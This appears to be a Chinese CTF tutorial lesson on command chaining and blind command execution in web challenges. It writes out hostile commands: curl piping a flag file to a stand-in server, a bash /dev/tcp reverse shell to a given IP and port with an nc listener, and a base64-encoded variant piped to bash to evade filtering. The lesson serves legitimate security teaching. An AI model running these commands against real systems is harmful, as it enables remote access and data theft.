








# CTF系列教程：P73：CTF-web 联合执行 🚀

在本节课中，我们将要学习CTF中Web安全方向的一个重要知识点：命令联合执行。我们将探讨如何将多个系统命令组合在一起执行，并了解在无回显等特殊情况下如何获取命令执行的结果。

---

## 命令联合执行基础

上一节我们介绍了基本的命令执行，本节中我们来看看如何将多条命令组合执行。

在Linux系统中，有多种符号可以将多个命令连接起来，作为一个整体执行。以下是几种常见的命令联合执行方式：

*   **分号 `;`**：这是最常用的无条件联合执行符号。无论前一个命令是否执行成功，分号后的命令都会继续执行。命令之间互不干扰。
    *   **示例**：`ping 127.0.0.1; ls -l`
*   **逻辑与 `&&`**：只有当前一个命令执行成功（返回状态码为0）时，才会执行后一个命令。
    *   **示例**：`cd /tmp && cat flag.txt`
*   **逻辑或 `||`**：只有当前一个命令执行失败（返回状态码非0）时，才会执行后一个命令。
    *   **示例**：`cat /flag || echo "File not found"`
*   **管道符 `|`**：将前一个命令的标准输出作为后一个命令的标准输入。
    *   **示例**：`echo "abc" | md5sum`
*   **换行符 `\n`**：在命令行中直接按回车执行命令，在某些编程语言或上下文中，`\n`字符也能起到分隔命令的作用，但并非所有环境都支持。

除了联合执行，还有内联执行（例如使用反引号 `` `command` `` 或 `$(command)`），我们将在后续课程中介绍。

---



## 无回显命令执行与反弹Shell



在CTF题目或实际场景中，我们可能会遇到命令执行成功但没有回显（输出）的情况，这被称为“无回显”或“盲注”。此时，我们需要通过其他手段获取命令执行的结果。



以下是两种主要的解决思路：

*   **数据带出**：将命令执行的结果发送到我们可控的服务器上。
    *   **方法**：使用 `curl`、`wget` 等命令发起HTTP请求，将结果作为参数或请求体发送到我们的监听服务器。
    *   **示例**：`cat /flag | curl -X POST http://your-server.com --data-binary @-`
*   **延时盲注**：通过命令执行是否产生延时来判断条件是否成立，类似于SQL注入中的时间盲注。
    *   **方法**：利用 `sleep` 命令，结合条件判断语句。
    *   **示例**：`if [ $(cat /flag | cut -c 1) == 'f' ]; then sleep 5; fi`



其中，**反弹Shell（Reverse Shell）** 是数据带出的一种强大形式。它能让目标服务器主动连接我们的监听端口，并提供一个交互式的Shell会话。

一个典型的反弹Shell命令如下：
```bash
bash -i >& /dev/tcp/你的IP地址/你的端口号 0>&1
```
**执行步骤**：
1.  在自己的服务器上使用 `nc` 监听一个端口：`nc -lvnp 12345`
2.  在存在命令执行漏洞的地方，输入上面的反弹Shell命令（替换为你的IP和端口）。
3.  如果执行成功，你将在自己的 `nc` 监听端口中获得目标服务器的Shell。

**注意**：直接执行可能被拦截或失败。通常可以借助编码或文件下载来绕过。
*   **方法一**：将命令写入文件后执行。
    ```bash
    echo "bash -i >& /dev/tcp/192.168.1.100/12345 0>&1" > /tmp/shell.sh
    chmod +x /tmp/shell.sh
    /tmp/shell.sh
    ```
*   **方法二**：使用Base64编码绕过。
    ```bash
    echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEuMTAwLzEyMzQ1IDA+JjE=" | base64 -d | bash
    ```

---



## 关于AWD攻防赛的补充说明



AWD（Attack With Defense）是一种CTF比赛模式，与红队攻击有本质区别。它更侧重于在攻防对抗中快速修复漏洞（防御）并攻击他人漏洞（攻击）。

**关于提权**：在AWD比赛中，通常不现实进行完整的本地提权（Privilege Escalation），因为这类操作往往需要连接外网下载或运行自动化脚本，而比赛环境通常禁止出网。防守的重点在于快速修补Web应用漏洞。

**关于极端防御案例**：曾有通过攻击网络交换机并配置ACL（访问控制列表）来屏蔽所有其他选手流量的极端防御策略，但这属于非常规手段。

---





本节课中我们一起学习了命令联合执行的多种方式，并深入探讨了在无回显场景下获取命令结果的两种策略：数据带出和延时盲注，其中重点介绍了反弹Shell的技术原理与实现方法。这些是CTF Web方向中命令执行类题目的核心解题思路。